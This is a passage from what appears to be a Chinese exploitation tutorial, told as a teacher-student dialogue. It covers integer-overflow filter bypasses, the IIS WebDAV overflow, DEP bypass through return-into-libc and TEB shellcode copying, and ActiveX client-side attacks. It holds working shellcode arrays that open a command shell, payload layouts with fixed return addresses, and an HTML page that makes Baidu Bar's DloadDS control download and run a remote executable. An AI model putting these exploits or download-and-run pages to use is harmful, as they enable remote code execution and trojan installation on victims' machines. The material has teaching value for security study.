“该代码给局部数组 a 分配 10 的空间，然后检查 arg 的长度，只有小于 10 的时候，才将 arg 的内容拷贝到 a 中，以避免溢出空间。但实际上，如果不加注意，检查往往会被巧妙地构造输入，利用整数溢出，绕过对数据的检查和过滤。”


图 4-75

### 4.4.2 利用整数下溢绕过过滤

“比如一个有漏洞的函数如下，大家看看有什么问题吗？”

```c
#define MAXLEN 8
void bug_function(short size, char *str)
{
    char a[MAXLEN];
    if(size > MAXLEN)
        size = MAXLEN;
    memcpy(a, str, size-2);
}
```


图 4-76

小菜们看了看，说道：“嗯，首先给 a 数组分配 8 个空间，然后检查传入参数的长度是否大于 8，如果大于 8，就把 size 强行赋为 8，然后只拷贝 size-2 的长度。”

“哦？分配的 size，最多只准拷 size-2，肯定不能溢出 a[8] 啊，这有什么问题呢？”小菜们疑惑了。

“呵呵，这是计算机对数字表达的特性。-1 在计算机里的表示是 FFFF，但把它当成无符号数，则是一个很大很大的数。大家想想，如果我们给参数 size 的值赋成 1 会怎样呢？”

“如果 size 为 1，那么会分配 8 的空间，然后拷贝 memcpy(a, str, -1)，出现负数了！”

“对！memcpy 会认为是无符号数，就会拷贝非常大非常大的一片空间！”老师说道，“我们用 bug_function(1, strName); 对函数进行调用，就会造成溢出。”

“哦，原来是这样啊！”小菜们说道，“我们赶快试试吧！调用 bug_function(1, strName); 函数，会造成拷贝很大的数据，如图 4-77。”


图 4-77

“由于拷贝长度太大，进入无法读取的页面，就会引发地址异常了，如图 4-76。”

“看，EDI 目标地址为 00134000，没有一个加载的页面，所以出错了。因为在函数返回前就异常了，所以需要通过覆盖 SEH 来利用。我们观察一下 a 的位置距离 SEH 的长度，如图 4-77。”

“SEH 的位置是 0012FFB0，而 a 的位置为 0012FF1C，从 a 覆盖到 SEH 的距离为 94h，即 148 字节，那么我们……”

“哦，知道了，知道了！”小菜们叫了起来，“对数组 a 覆盖 148 个 A，然后接 9090eb04，和通用地址 7FFA1571，最后是我们的 Shellcode。”

“我们建立 main 函数，构造的字符串调用该函数，进入我们熟悉的 Shellcode 了，如图 4-78！”


图 4-78

### 4.4.3 利用整数上溢绕过过滤

```c
#define MAXLEN 8
void bug_function(short size, char *str)
{
    char a[MAXLEN];
    if (size+2 > MAXLEN)
        return;
    memcpy(a, str, size);
}
```

“好耶！”小菜们埋头读起代码来。

“先给 a 分配 8 字节的空间，对 size+2 判断是否大于 8，如果大于 8，就认为太长而返回了；否则，就拷贝 size 大小的字符串。”

“emmm……这又怎么绕过呢？”小菜们冥思苦想起来。

“这次，我们给 size 赋一个很小的负值，比如 -1，这样 size+2 就变成 1 了……”老师提示道。

“哦，这样比 MAXLEN 小，就绕过了最开始的检查；但在后面的拷贝时，却拷贝了 FFFF（-1 的表示）这么多的数，肯定就溢出了。”小菜们一下就明白过来了。

“对，这里的利用方式就是调用 bug_function(-1, strName);”老师说道，“字符串 strName 的构造和上面那个下溢漏洞是一模一样的，也是填充 148 个字符后到达异常点，然后接 9090eb04、7FFA1571、Shellcode。”

“哦！”

“具体的利用代码这里就不讨论了，有兴趣的同学可以把上面的代码直接拿来试试。”


### 4.4.4 利用整数截断造成溢出

“我们再来看一个有漏洞的函数。”

```c
#define MAXLEN 8
void bug_function(int size, char *str)
{
    char buf[MAXLEN];
    short s = size;
    if (s > MAXLEN)
        return;
    memcpy(buf, str, size);
    return;
}
```


小菜们又开始读起代码来：“分配 8 字节的 buf，然后把 size 赋给 s，检查 s，如果大于 8 就返回，否则给 buf 拷贝 size 大小。这里没有加减，又是怎么溢出的呢？”

老师说道：“size 是 int 类型，但是 s 却是 short 类型。把 int 类型的 size 赋给 short 类型的 s 时，就有可能被截断！从而绕过检查，而拷贝很长的数据！比如我给 size 赋成 0x010001 来调用该函数：bug_function(0x10001, strName);。short 类型只有两个低字节，从而被截断为 1，就像图 4-79 一样。”

“这样再拷贝 size 长时，实际是拷贝 0x010001 的长度，就越界了。”

“哦！真是防不胜防啊！”

“我们同样使用覆盖异常的方法，也用同样的字符串，还是成功地进入了 Shellcode，如图 4-80。”

### 4.4.5 短整数溢出的实际例子：WebDav 漏洞

“我们看看大千世界中一个短整数溢出的实际例子吧——WebDav 漏洞。大家先看一下这个函数，有什么问题呢？”

```c
#define MAX_BUF 8
void BadCode(char* input)
{
    short len;
    char buf[MAX_BUF];
    len = strlen(input);
    if (len < MAX_BUF)
        strcpy(buf, input);
}
```

“哦，len 是 short 类型，最大值为 65535，如果 input 的长度大于 65535，通过 strlen 计算出来的长度，赋给 len 就会变为 0 或 1，这是小于 MAX_BUF 的，从而绕过检查造成溢出。”小菜们这次看出来了。

“非常好！WebDav 漏洞就是这个原理，整数溢出造成了溢出漏洞。”

> **小知识：** IIS 5 默认提供了对 WebDAV 的支持，通过 WebDAV 可以通过 HTTP 向用户提供远程文件存储的服务。IIS 5.0 包含的 WebDAV 组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 WEB 进程权限在系统上执行任意指令。IIS 5.0 的 WebDAV 使用了 ntdll.dll 中的一些函数，而这些函数存在着一个缓冲区溢出漏洞，通过对 WebDAV 的畸形请求可以触发这个溢出，成功利用这个漏洞可以获得 LocalSystem 权限，这意味着入侵者可以获得主机的完全控制能力。

“这个漏洞产生的机理，是相当复杂的。我们简单地说吧，发出下面的请求时，IIS 就会把 buffer 加上几个字节的路径，作一定的拷贝。”

```http
SEARCH /[buffer] HTTP/1.0
Host: xxx
Content-Type: text/xml
Content-length: 3

xx
```

“哦，在拷贝中，没有作边界检查？所以溢出？”小菜们问道。

“不，在拷贝前，是作了检查的，而且很严格，用变量 Length 保存长度，如果 Length 超过了 8，那就不作拷贝！”

“哦？那怎么引发溢出的呢？”

“呵呵，这就是该漏洞的奇妙之处。虽然程序先计算出长度，保存在 Length 中，但 Length 是无符号短整数类型，只能存 65535。但是我们的 buffer 可以超过 65535 的限制，那 Length 就无法容纳，就会溢出，例如当路径长度是 65536，那么 Length 就变成 0 了。拷贝前的判断，就为真，就可以拷贝。在拷贝的时候，buffer 实际是 65536 那么长，当然溢出了！”

“哦，这就是例子代码的原理啊！”

“好了，明白了原理，利用我们前面覆盖异常处理点的方法，用溢出三步曲，写出 exploit 的雏形吧！

- 第一步：异常处理点的位置。在 Buffer 第 266 的位置左右，这里注意，是左右哦。
- 第二步：ShellCode。呵呵，等以后有机会我们再一起讨论，这里还是用现成的吧。
- 第三步：jmp/call ebx 的地址——先用 0x7FFA1571 试试。

“这样就可以打造出攻击代码了。”老师说道，“这个漏洞还有一些需要注意的地方，主要是涉及到 Shellcode 编码和溢出点不定的问题。这个问题我们以后再来讨论，这里就不再赘述了，漏洞利用的详细描述和利用程序可以参考本课程的资料。”

## 4.5 突破 XP SP2 下栈不可执行保护

“因为漏洞的危害性和程序员自己编写的检查代码的不完善，所以微软在 Windows XP Service Pack 2 和后续的操作系统中支持了具有里程碑意义的 Data Execution Prevention 数据执行保护技术（简称 DEP）。DEP 相当厉害，最直接的因素就是导致堆栈不可执行，这样我们即使在堆栈中有 Shellcode，并且跳到堆栈中的 Shellcode，也是不能执行的。”

“哦，栈不可执行，这听起来很凶险呀，难道就没什么办法利用溢出了么？”

“当然不是！聪明的黑客一如既往，继续艺术性地突破各种枷锁和限制。”

### 4.5.1 DEP 保护简介

DEP 技术并非由微软开发，而是内嵌于 CPU 中，只是这项功能的执行必须得到操作系统的支持。执行保护是一套软硬件技术，能够在内存上执行额外检查以帮助防止在系统上运行恶意代码。在 Microsoft Windows XP Service Pack 2（SP2）和 Microsoft Windows XP Tablet PC Edition 2005 中，由硬件和软件一起强制实施 DEP。DEP 的主要优点是帮助阻止数据页（如默认的堆页、各种堆栈页以及内存池页）执行代码。通常情况下，不从默认堆和堆栈执行代码。硬件实施 DEP 检测从这些位置运行的代码，并在发现执行情况时引发异常。如果异常未得到处理，进程将停止。DEP 需要 CPU 的支持才能发挥作用，老的 CPU 一般是不支持的。查看 CPU 是否支持 DEP 以及 DEP 的开启状态，可以右键点击“我的电脑”，选择“属性”，在“系统属性”页中选择“高级”标签，点击“性能”的“设置”按钮，如图 4-81。


在弹出的“性能选项”中，选择“数据执行保护”，就会看到 DEP 的开启状况和 CPU 是否支持 DEP。在面板的最下方，我们看到“您的计算机处理器不支持基于硬件的 DEP……”的那段话，就说明这台电脑的 CPU 并不支持 DEP，如图 4-82。

DEP 的状态默认是“仅为基本 Windows 程序和服务启动 DEP”，将其改选为“为除下列选定程序之外的所有程序和服务启用 DEP”，点击“确定”按钮后重启计算机，就在 Windows SP2 上对所有程序开启了 DEP 保护。


老师说道：“在 DEP 才出来的时候，微软宣称的是，在不支持 DEP 的 CPU 上，进行的是软件模拟保护，也可以抵抗一些攻击，但真的是真的吗？我们在这台不支持 DEP 的电脑上测试一个最简单的栈溢出漏洞程序——就用我们最前面的演示程序。”

```c
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>
#include <winsock.h>
char name[] =
"\x41\x41\x41\x41"      // name[0]~name[3]
"\x41\x41\x41\x41"      // name[4]~name[7]
"\x44\x41\x41\x41"      // ebp
"\x12\x45\xFA\x7F"      // 覆盖成 jmp esp 的地址
// 以下是 shellcode 开 dos 窗口
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x77\x1D\xB0\x7C"      // sp4 77e705cfh LoadLibraryA xp sp2: 0x7c801d77
"\x52\x8D\x45\xF4\x50"
"\xFF\xD0"
"\x6A\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E"
"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x80\x45\xF4"
"\x50\x8B"
"\xC7\x93\xBF\x77"      // system
"\xFF\xD0"
"\x83\xC4\x12\x5D"      // 平衡堆栈
"\xB8\x7E\x9E\xC0\x77\xFF\xD0";  // exit

int main()
{
    LoadLibrary("msvcrt.dll");
    char output[8];
    memcpy(output, name, sizeof(name));

    for(int i = 0; i < 8 && output[i]; i++)
        printf("\\x%x", output[i]);

    return 0;
}
```


“唉，这个简单，我们只用把函数地址替换成 XP SP2 系统上的地址就可以了。”小菜们说道，“编译，执行，哦，在 WinXP SP2 的电脑上还是可以得到一个 cmd 窗口啊，如图 4-83！”

“是的，如果 CPU 不支持 DEP，那么什么栈不可执行都只是纸上谈兵而已，根本没有任何用处，而且即使支持，默认情况下也只对基本的 Windows 程序和服务打开，没有对 IE 打开，这就是 XP SP2 还是会经常中毒、中招、中木马的原因。”

“哦！原来是这样啊。”

“我们再来看看 CPU 支持 DEP 的情况，如果 CPU 是支持 DEP 的，那么在“性能选项”面板的“数据执行保护”中，就没有 CPU 不支持 DEP 的那段提示，如图 4-84。”

> **小知识：** 如果想对所有的程序都关闭 DEP 保护，单击“系统”→“高级”→“启动和故障恢复”的“设置”→“启动”编辑，将 boot.ini 文件中的 `/NoExecute` 选项的值编辑成 `AlwaysOff`。如果想设为总是开启，则写成 `AlwaysOn`，而默认情况下，设为“基本 Windows 程序和服务启动 DEP”是 `OptIn`。如图 4-85。

“大家在这台真正拥有 DEP 的电脑上来测试我们的溢出例子吧！”老师招呼道。

“好的！”小菜们编译、执行，“哎哟！报错了，如图 4-86！”

“大家可以看到，DEP 还是有真才实学的，刚才那个溢出例子报错了，不能得到 DOS 对话框了。”

“0x7FFA4512 不能为 written，这个错误还真奇怪！”

“我们看看吧，0x7FFA4512 是我们的通用 JMP ESP 地址，如图 4-87。”

“嗯，的确是 JMP ESP 指令，而且页面加载了，又有值啊，为什么会报错呢？”

“这是因为这个时候 ESP 指向堆栈，而堆栈在 DEP 开启情况下被标为不可执行的，所以企图跳转过去执行指令就会出错了。”

“哦！堆栈被标为不可执行，所以不能跳转到堆栈里执行里面的 Shellcode 指令了……那么老师，如何突破这个栈不可执行的限制呢？”

“呵呵，我们说过，以前溢出利用有两大武林正宗：覆盖函数返回点 JMP ESP 和覆盖异常处理链 JMP EBX，但除了这两大门派外，还有诸多的江湖门派，他们行走江湖都拥有独门绝技，可以突破 DEP 的栈不可执行保护！”

### 4.5.2 return into libc

老师说道：“其实这里不能说突破栈不可执行保护，应该说是绕过栈不可执行保护，因为我们并不能让栈变得可以执行，而是使用其它方法，不在栈里执行指令，也实现我们想要的目的。还是以开 DOS 窗口为例，大家想一想，那个 Shellcode，其实是执行了 `system("cmd")` 这句指令，其执行过程是先将参数 `cmd` 字符串的地址入栈，然后压入返回地址，再跳转到 system 函数开始的地方执行。”

小菜们点点头，他们已经非常熟悉了。

“就是说，跳到 system 函数的起始指令时，只要堆栈是下面这个情况，就可以正常完成 system 函数的功能了，如图 4-88。”

```c
char strName[] =
"\x31\x40\x41\x00"  // cmd
"\x31\x41\x41\x41"  // ebp
...
"\xc7\x93\xbf\x77"  // system() address
"\x41\x41\x41\x41"  // fake after system
"\x30\x24\x04\x00"  // cmd address 0x042430
"\x41\x41\x41\x41\x41\x41\x41\x41";

// esp: system: 0x77bf93c7; exit: 0x77c90e7e

int main()
{
    LoadLibrary("userctrl.dll");
    char strOutput[8];
}
```

“所以，如果我们考虑使用 system 函数的地址覆盖被溢出函数的返回地址，这样溢出函数返回时，就会进入 system 函数执行，只要保证堆栈的结构是正确的，那么由于 system 函数的地址空间并不是在栈上的，就可以绕过 DEP 检测，正常执行了！进一步明确地说，我们做如下的构造，如图 4-89。”

“如此构造后，当 main 函数返回时，由于返回地址被 system 函数地址覆盖，就会跳到 system 中执行，而此时栈里为伪造的 system 返回地址和参数 cmd 字符串的地址，正好是正常执行 `system("cmd")` 时堆栈的结构，所以 system 函数就能正常执行，完成我们想要的打开 DOS 窗口功能。”

“对啊！就是这样的！”小菜们欢呼起来。

“cmd 这个字符串放在哪里呢？我们可以在覆盖字符串 strName 中构造，放在字符串最开始的地方，这样参数就有了。那具体地址是什么呢？我们通过调试，可以得到其地址为 0x00424a30，如图 4-90。”

“这样具体的构造就应该是这样的。”

```c
char strName[] =
"\x43\x4D\x44\x00" // cmd字符串
"\x41\x41\x41\x41" // ebp
"\xc7\x93\xbf\x77" // system() address
"\x41\x41\x41\x41" // eip after system
"\x30\x4a\x42\x00"; // cmd address 0x00424a30
```

“好，我们试一下吧！”小菜们急着一试身手，运行，成功弹出了 DOS 控制台，如图 4-91！

“哇！这可是突破了 XP SP2 的 DEP 栈不可执行保护的 exploit 哦！”小菜们感叹道。不过在输入 exit 准备退出控制台时，却报错了，如图 4-92。

“0x41414141？哦！我明白了，这是 system 执行完后的返回地址是 0x41414141，由于 0x41414141 的地方不可执行，就产生了错误。”小菜们思考了一下说道。

“对！就是这样的。”老师说道，“为了优雅地退出，我们可以把 system 执行返回的地址伪造成 exit 的地址，在 XP SP2 上 exit 的地址是 0x77c09e7e，这样我们改进后的构造代码就是。”

```c
char strName[] =
"\x43\x4D\x44\x00" // cmd
"\x41\x41\x41\x41" // ebp
"\xc7\x93\xbf\x77" // system() address
"\x7e\x9e\xc0\x77" // exit() address; eip after system
"\x30\x4a\x42\x00"; // cmd address 0x00424a30
```

“这样在 `system("cmd")` 执行完后会返回到 exit 函数中，程序就可以优雅地退出了。我们再测试一下，结果如图 4-93，正常地退出了！”

“由于 system 函数是在库函数中的，因此这类方法被通称为 return into libc，就是返回到库函数中直接执行函数，从而绕过栈不可执行保护。”老师最后补充道。

### 4.5.3 利用 TEB

“上面的方法是直接返回到函数地址，都需要我们啰嗦地构造堆栈结构。如果能直接执行我们的 Shellcode，那就方便多了。所以我们再换换思路，看看有什么办法可以突破 DEP 直接执行 Shellcode 呢？”

“emu 执行 Shellcode？因为在 DEP 保护下，堆栈和堆都是不可执行的，要执行 Shellcode，只能把它放在其它可以执行的地方吧。”小菜们说道。

“太对了！我们的思路就是将 Shellcode 拷贝到一个可写也可执行的内存位置，然后返回到那个内存位置进行执行。因为那个内存段是不被 DEP 限制的，所以就可以正常地执行 Shellcode 了。具体地说，可以把溢出函数的返回地址覆盖成一个字符串拷贝函数的地址，比如 lstrcpy 函数的地址，后面跟目标内存地址和 Shellcode 地址作为参数，这样当溢出函数返回时，就会执行拷贝 Shellcode 的功能，把 Shellcode 拷贝到目标内存地址中。我们最后在 lstrcpy 执行完毕后，返回到指定的目标内存地址，就可以执行拷贝过去的 Shellcode 了。”

“明白了，那就是这样吧。”小菜们画出了利用构造图，如图 4-94。

| Shellcode | ebp | lstrcpy地址 | 目标地址 | 目标地址 | Shellcode地址 |
|---|---|---|---|---|---|

“对！大家看，溢出函数返回，会执行 `lstrcpy(目标地址, Shellcode地址)`，拷贝完后，lstrcpy 函数返回，会以为栈中的目标地址为它的 RET 地址，就会返回到我们构造的目标地址，而在这个时候 Shellcode 已经拷贝到那个地方，就开始执行 Shellcode 了。”

“哦，对啊，那么现在唯一的问题就是目标地址是多少呢？就是我们把 Shellcode 拷贝到哪个又可读又可执行的地方呢？”小菜问道。

“问得好！答案是 TEB。”

> 小知识：TEB 是 Thread Environment Block（线程环境块），每当创建一个线程时，系统会为每个线程分配 TEB。

“在以前的系统中，TEB 的地址是固定的，第一个 TEB 的地址为 0x7FFDE000，第二个 TEB 的地址为 0x7FFDD000，以此类推。在 TEB 偏移 0xC00 的地方，有 520 字节缓存用于 ANSI-to-Unicode 函数的转换，这样第一个 TEB 的缓存地址就为 0x7FFDEC00。为了避免 0 字节，我们可以用 0x7FFDEC04 一类的地址。Shellcode 放在堆栈里，那么 Shellcode 地址就是在堆栈里的地址，这样整个构造结构如图 4-95 所示。”

“因为 Shellcode 地址在最后，所以即使地址带有 0 字节，也可以在 strcpy 一类的函数中使用！这次 Shellcode 的起始地址为 0x00424a30，这样构造出来的结果如下。”

| Shellcode | ebp | lstrcpy地址 | TEB地址 | TEB地址 | Shellcode地址 |
|---|---|---|---|---|---|

图 4-95

```c
// 以下是 shellcode，开 DOS 窗口。
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x63"
"\xC6\x45\xF6\x6D\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54"
"\xC6\x45\xFA\x2E\xC6\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
"\x77\x1d\x80\x77"                // sp4 77e705cfh LoadLibraryA; xp sp2: 0x7c801d77;
"\x52\x8D\x45\xF4\x50\xFF\x55\xF0"
"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x00\x89\x45\xF4\xB8\x61"
"\x6E\x64\x2E\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2"
"\x88\x55\xFF\x8D\x45\xF4\x50\xB8"
"\xC7\x93\xBF\x77"                // system
"\xFF\xD0"
"\x83\xC4\x12\x5D"                // 平衡堆栈
"\xBB\x7E\x9E\xC0\x77\xFF\xD0"    // exit      // 119 byte
"\x41\x41"                        // 120 byte
"\x41\x41\x41\x41"                // ebp
"\x29\xC7\x80\x7C"                // lstrcpyA() address
"\xC0\xF1\xFD\x7F"                // TEB buffer address, eip after system
"\xC0\xF1\xFD\x7F"                // TEB buffer address, des addr
"\x30\x4a\x42\x00"                // shellcode addr
```

“快测试一下，”小菜们马上运行，在堆栈不可执行的电脑上，还是成功开启了 DOS 窗口，如图 4-96。

“大家注意，这种方法在 2000 和 XP SP1 上是永远会成功的！但是在 XP SP2 上，TEB 的地址不是固定的，每次会动态生成，为 0x7FFDX000 的样子。所以，如果正好目标拷贝地址没有加载，那么 lstrcpy 拷贝在执行时就会失败，造成异常退出。测试的结果是大概 3、4 次可能会失败一次，成功率还算可以。其实，还有很多方法可以完美地突破 Windows 下栈不可执行保护，黑客的想象力和创造力是无限的！大家有什么 Good idea 也可以实践，关键还是在于勇于钻研、无私共享的黑客精神！下次课我们再继续深入吧！”

# 第五章 客户端漏洞的利用

“我们前面所讲的漏洞都属于主动攻击的，其实还有另一大类漏洞，也就是客户端的漏洞。在以前，客户端的漏洞没有受到太多的关注，因为那时候服务器上的漏洞是一抓一大把，大家都忙于研究和利用主动攻击漏洞，攻下了服务器，自然就获得了用户的信息。但是，随着技术的发展、安全意识的提高，服务器的攻击越来越困难。目前服务器的补丁都是自动更新，服务器的配置也是越来越严格，因此漏洞利用研究也逐渐地转向了对客户端的研究。由于研究热点转向了客户端，客户端漏洞也就不断暴露了出来。在 Milw0rm 网站上，平均 10 个公布的 POC 代码就有 8 个是属于客户端的，也就是说 20 个中就有 16 个，30 个中就有 24 个，40 个中有 32 个，50 个中有 40 个……那 75 个中就有几个呢？有兴趣的同学可以回去后研究下。相信大家以前都有这样的经历吧，不小心点了 QQ 上发来的网址，就会被种植‘QQ 尾巴’，自己也给好友发起这些网址来。”

“对呀，QQ 尾巴特别烦人，也不知道怎么杀掉，害得我重装了 4 次系统啊。”小菜 A 深受其害。

“是嘛？我比你好一点，只装了 3 次。”小菜们议论纷纷。

“呵呵，之所以点击浏览了这些网站就会中招，是因为这些站点利用了客户端漏洞的缘故。”老师解释道。

“客户端的漏洞？哦，我明白了！这里的客户端是指 IE 吧。”小菜们问道。

“是的，IE 本身有漏洞，各种软件自己开发的 ActiveX 上也有漏洞。攻击者利用这些漏洞，在站点上挂上他们的木马，用户访问时就会中招——这就是常说的挂马！”

“哦，原来这就是挂马啊！”

“挂马的形式各种各样，但原理都是利用客户端的漏洞完成下载木马并运行的功能。”老师说道，“因此，要理解挂马的本质，就需要理解客户端漏洞的本质。”

## 5.1 ActiveX 漏洞的利用

“客户端漏洞有多种多样，我们先来看 ActiveX 相关漏洞及其利用。ActiveX 在广义上是指微软公司的整个 COM 架构，但是现在通常是指基于标准 COM 接口，完成对象连接与嵌入的 ActiveX 控件。”

### 5.1.1 ActiveX 简介

ActiveX 控件让网页内容变得更加丰富，比如用户可以在 IE 浏览器中播放 Flash 动画、在线观看影片、在线杀毒等。ActiveX 控件技术将程序本身和 IE 浏览器融为一体，扩展了 IE 的功能。

ActiveX 得到了许多公司的支持，在 Internet 上有超过 1000 个 ActiveX 控件供用户下载使用。开发控件可以使用各种编程语言，一旦控件开发出来，设计和开发人员就可以把它当作预装配组件，用于开发客户程序。使用者无需知道这些组件是如何开发的，在很多情况下，甚至不需要自己编程，就可以完成网页或应用程序的设计。

老师总结道：“ActiveX 技术确实为软件开发带来了很大的便利，但同时也带来了更大的风险。一旦 ActiveX 控件有漏洞，攻击者就可以构造恶意页面，诱导用户访问页面，从而利用漏洞控制受害者机器。”

### 5.1.2 ActiveX 控件入门：IE 任意执行漏洞

“为了说明 ActiveX 控件的一些使用特点，我们先来看一个比较老的漏洞。新建一个文本文件，输入如下内容。”

```html
<OBJECT
CLASSID='CLSID:12345678'
CODEBASE='c:/windows/notepad.exe'>
</OBJECT>
```

“CODEBASE 指向的是本机的记事本文件路径，如果系统盘是在其它盘，比如 D 盘，路径就对应修改为 `d:/windows/notepad.exe`。我们将文件命名为 ActiveX.html，然后使用 IE 打开。结果一下就弹出了记事本，如图 5-1。”

“咦？有点儿神奇！那几句话是什么意思呢？”

“那几句话就是对 ActiveX 控件的引用。”老师解释道，“在 IE 中要使用一个 ActiveX 控件，在网页源码中用 `<object>` 标签进行引用。具体的控件以 CLSID 号对应，比如媒体播放器控件号为 `22D6F312-B0F6-11D0-94AB-0080C74C7E95`。控件部分是系统提供的，也有安装一些软件时提供的，还有就是用户自己提供的。当 IE 看到一个 `<object>` 引用时，首先根据 CLASSID 在系统中查找该控件，如果没有找到，那就认为系统目前还没有安装该控件，然后根据 codebase 的地址去试图下载并安装该控件，当然试图下载并安装控件这个过程受到 IE 安全设置的限制。像上面的代码，我们给 IE 指定了一个系统中并不存在的控件号，此时 IE 会试图从 codebase 指定的地址去下载并安装该控件。根据 codebase，于是 IE 找到了 `c:/windows/notepad.exe`，接着 IE“下载”并安装该程序。这个动作中的下载就是 copy 该文件到 IE 使用的 Downloaded Program Files 目录下，然后开始安装该控件，因为我们下载的是 notepad.exe 文件，其实就是运行该文件，所以当然就弹出了文本编辑器了！”

“哦，原来是这样！”

“当然，在此过程中还有很多复杂的动作：检测 ID 号是否正确、检测系统注册表中是否有该控件、检测已经下载的文件目录中是否已经下载该文件、“下载”文件到 Downloaded Program Files 目录，命名为 `set????.tmp`，rename 该 tmp 文件为原文件名、检查文件类型并作相应‘安装’动作等。”

“那我们可以这样下载远程木马文件并执行吗？”小菜们问道。

“当然不行了，如果可以随便这样，那网络岂不全乱套了！这里 IE 不提示用户，也不应用 IE 安全设置中的限定进行检测，其原因是 IE 安全中的设置都是针对非本地的页面或交互的，对于本地的安全设置 IE 是最大信任的。在上面这个例子中，我们的页面在本地，即 IE 解释的是本地文件，而同时‘下载’的控件 `c:/windows/notepad.exe` 也是在本地系统上的，也就是这两个过程都是本地的，这样 IE 的安全设置均无效了。”

“本地最大信任嘛，最大的，没办法。我们反过来看，将 codebase 改为 `http://192.168.0.249/notepad.exe`，然后在 192.168.0.249 相应位置放一个记事本程序 notepad.exe，然后双击使用 IE 打开，这次 IE 会给出警告框了。这是因为试图下载的控件在 Internet 上，IE 安全设置生效了，如图 5-2。”

“如果我们对 ActiveX.html 不作任何修改（即 codebase 仍为 `c:/windows/notepad.exe`），放在 Web 服务器上，然后使用 IE 访问，仍然不会成功，因为页面是来自非本地的，受到 IE 安全设置的限制。”

“哦，明白了。那么如何做到访问时运行记事本程序，而没有受 IE 安全设置限制呢？”小菜们问道。

“这就只有一个办法——利用漏洞了。从上面的分析我们已经知道如果能够做到本地页面，codebase 又是本地文件就能受最大信任。我们本来的目的就是运行本地程序，codebase 当然指向本地，两个条件中已经满足一个了，还有一个就是如何让 IE 认为页面是本地页面。因为网站上页面肯定不是本地页面，是 IE 从网站上下载回来的，按理说是不可能做到这一点的。但是，以前 IE 有一个漏洞，修改 innerHTML 能修改页面本身，IE 会认为这段代码是本地代码，将其当成本地页面来处理安全设置，所以如果我们可以利用下面这段代码。”

```html
<body></body>
<SCRIPT>
html="<OBJECT CLASSID='CLSID:12345678'"
html+=" CODEBASE='c:/windows/notepad.exe'></OBJECT>"
document.body.innerHTML=html
</SCRIPT>
```

“在有漏洞的 IE 上，访问远程服务器上的这个页面就可以远程弹出记事本。”

“啊？为什么呢？”

“上面的那段代码是动态生成 HTML 字符串，赋给 innerHTML 改变页面本身。赋值完成后，页面的 HTML 为。”

```html
<OBJECT
 CLASSID='CLSID:12345678'
 CODEBASE='c:/windows/notepad.exe'>
</OBJECT>
```

“和刚才原本的页面一模一样，但 IE 存在的漏洞会误认为这是本地的页面，因此就可以运行本地的记事本了。”

“哦！明白了！原来都是漏洞惹的祸啊。”

“当然了，这个漏洞比较老，大家使用现在的系统测试肯定不会成功的！”老师笑道，“这只是用来说明 ActiveX 控件的一些入门知识，我们来看与 ActiveX 控件相关的一些最新漏洞吧。”

### 5.1.3 ActiveX 的调用：百度超级搜索代码执行漏洞

# 第五章 客户端漏洞的利用

利用起来可是相当地方便。百度超级搜霸是百度公司出品的一款免费的浏览器工具栏，提供百度公司的各种服务。其中的一个 ActiveX 控件中存在一个远程代码执行漏洞，远程攻击者可利用此漏洞在被攻击者系统上以当前浏览器权限执行任意代码，进而可安装木马以及间谍程序。受此漏洞影响的版本是百度超级搜霸 5.4（Version of BaiduBar.dll is 2.0.2.144），其 MD5 的值为 7F751A157AF42E92FDD0AF3F179FE9AB，如果找不到受影响的版本，可以在我给大家的资料中找到。我们首先在电脑上安装百度超级搜霸，安装界面如图 5-3 所示。


“安装完毕后，就可以使用搜霸所提供的各种功能了，如图 5-4。”

“看起来还不错嘛，但漏洞该怎么玩啊？”小菜们已经迫不及待了。

“漏洞存在于 ActiveX 控件 BaiduBar.dll 导出的 DloadDS() 函数中，其相关信息如下。”


```text
InprocServer32    C:\Program Files\Baidu\Bar\BaiduBar.dll
ClassID           A7F05EE4-0426-454F-8013-C41E3596E9E9

[id(0x0000001d), helpstring("method DloadDS")]
void DloadDS(
    [in] BSTR bstrUrl,
    [in] BSTR bstrName,
    [in] long iShow);
```

“如果把第一个参数 bstrUrl 设置成某个服务器上的 CAB 文件，DloadDS() 函数会尝试下载这个文件到 TEMP 目录中并解压，然后执行其中以 bstrName 命名的文件。要使得搜霸下载并执行我们指定的文件，可以在服务器上构造利用页面 soba.html 如下，代码中有详细的解释。”

```html
<html>
<head>
<script>
function DownloadCalcAndRun() // 按钮点击后的响应函数
{
    // 调用 ActiveX 控件的 DloadDS 函数
    com.DloadDS("http://192.168.0.249/calc.cab", "calc.exe", 0);
}
</script>
</head>

<!-- 引用该 ActiveX 控件，名字 ID 设为 com -->
<OBJECT ID="com"
CLASSID="CLSID:A7F05EE4-0426-454F-8013-C41E3596E9E9"></OBJECT>

<!-- 在页面上生成一个按钮，点击的时候会调用函数 DownloadCalcAndRun -->
<button onclick="javascript:DownloadCalcAndRun();">DownloadCalcAndRun</button>
</html>
```

“来解释一下页面的整个流程，`OBJECT ID="com" CLASSID="CLSID:{A7F05EE4-0426-454F-8013-C41E3596E9E9}"`，大家都应该清楚了，这说明要使用搜霸这个 ActiveX 控件，其引用名为 com，在页面中要使用该 ActiveX 控件，直接用 com 这个 ID 就可以了。`<button onclick="javascript:DownloadCalcAndRun();">DownloadCalcAndRun</button>` 是在页面上生成一个按钮，用户点击该按钮会执行 DownloadCalcAndRun() 函数。而 DownloadCalcAndRun 函数的实现为：”

```javascript
function DownloadCalcAndRun()
{
    com.DloadDS("http://192.168.0.249/calc.cab", "calc.exe", 0)
